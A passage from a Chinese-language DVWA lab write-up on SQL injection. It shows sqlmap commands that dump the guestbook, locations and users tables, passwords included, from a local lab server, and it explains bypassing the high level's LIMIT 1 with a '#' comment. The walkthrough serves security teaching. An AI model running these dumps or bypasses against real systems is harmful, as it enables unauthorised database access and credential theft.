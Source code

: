 ![image-20211102220652378](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031951944.png)

`sqlmap.py -u "http://192.168.112.140/dvwa/vulnerabilities/sqli/" --data="id=1&Submit=Submit" --cookie="security=medium; PHPSESSID=43709171c4bda4821f23857bd9f0bd8a" --batch -D dvwa -T guestbook -C "comment,comment_id,name" --dump`

![image-20211102220848554](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031951099.png)



###### 查看表locations中的列和数据

`sqlmap.py -u "http://192.168.112.140/dvwa/vulnerabilities/sqli/" --data="id=1&Submit=Submit" --cookie="security=medium; PHPSESSID=43709171c4bda4821f23857bd9f0bd8a" --batch -D dvwa -T locations --columns`

![image-20211102221057165](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031951273.png)

`sqlmap.py -u "http://192.168.112.140/dvwa/vulnerabilities/sqli/" --data="id=1&Submit=Submit" --cookie="security=medium; PHPSESSID=43709171c4bda4821f23857bd9f0bd8a" --batch -D dvwa -T locations -C "latitude,longtitude,name" --dump`

![image-20211102221124144](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031951508.png)



###### 查看表user中的列和数据

`sqlmap.py -u "http://192.168.112.140/dvwa/vulnerabilities/sqli/" --data="id=1&Submit=Submit" --cookie="security=medium; PHPSESSID=43709171c4bda4821f23857bd9f0bd8a" --batch -D dvwa -T users --columns` 

![image-20211102221153863](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031951782.png)

`sqlmap.py -u "http://192.168.112.140/dvwa/vulnerabilities/sqli/" --data="id=1&Submit=Submit" --cookie="security=medium; PHPSESSID=43709171c4bda4821f23857bd9f0bd8a" --batch -D dvwa -T users -C "user_id,user,password,first_name,last_name,avatar,last_login,failed_login" --dump`

![image-20211101154850324](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031951756.png)



------

#### 【High-手工注入】

##### ①查看源码

![image-20211101200035395](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031951022.png)

![image-20211101200217021](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031951190.png)

High中前端用户提交的id值是首先传入到服务端存储到Session文件中，然后再调用给其他需要该id的地方使用。High相较于Medium，去掉了对特殊字符的转义，但在SQL查询语句中添加了LIMIT 1，以此来控制只输出一个结果，但是可以通过`#`注释绕过。所以手工注入的方法和前两种级别的差不多，接下来简略介绍流程。

##### ②简略过程
